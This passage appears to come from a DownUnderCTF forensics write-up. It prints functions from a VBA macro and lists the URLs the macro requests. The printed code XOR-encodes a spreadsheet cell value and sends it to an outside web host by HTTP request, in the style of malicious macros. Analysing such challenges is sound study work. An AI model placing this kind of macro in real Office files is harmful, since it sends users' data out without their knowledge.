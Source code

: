 ```vb
    For I = 1 To Len(B)
        A = A & Chr(Asc(Mid(B, I, 1)) Xor Asc(Mid(C, (I - 1) Mod Len(C) + 1, 1)))
    Next I
    doThing = A
End Function
Public Function superThing(ByVal A As String) As String
    With CreateObject("MSXML2.ServerXMLHTTP.6.0")
        .Open "GET", A, False
        .Send
        superThing = StrConv(.responseBody, vbUnicode)
    End With
End Function
Public Function something(B As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(inputText)
        A = A & WorksheetFunction.Dec2Bin(Asc(Mid(B, I, 1)))
    Next I
    something = A
End Function
Public Function forensics(B As String) As String
    Dim A() As Byte
    Dim I As Integer
    Dim C As String
    A = StrConv(B, vbFromUnicode)
    For I = LBound(A) To UBound(A)
        C = C & CStr(A(I)) & " "
    Next I
    C = Trim(C)
    forensics = C
End Function
```

We can see that `superThing()` sends a web request, so there are a few web requests in order.
- http://play.duc.tf/ + `totalyFine(forensics("Yes"))`
- http://flag.com/
- http://play.duc.tf/
- http://en.wikipedia.org/wiki/Emu_War
- http://downunderctf.com/ + `totalyFine(forensics("Try Harder"))`
- http://play.duc.tf/ + `totalyFine(forensics("Pterodactyl"))`
- http://downunderctf.com/ + `totalyFine(forensics(doThing("Flag: " & valueA1, "MonkeyMagic")))`
- http://play.duc.tf/ + `totalyFine(forensics("Forensics"))`

Let's figure out what `doThing` does.

```vb
Public Function doThing(B As String, C As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(B)
        A = A & Chr(Asc(Mid(B, I, 1)) Xor Asc(Mid(C, (I - 1) Mod Len(C) + 1, 1)))
    Next I
    doThing = A
End Function
```
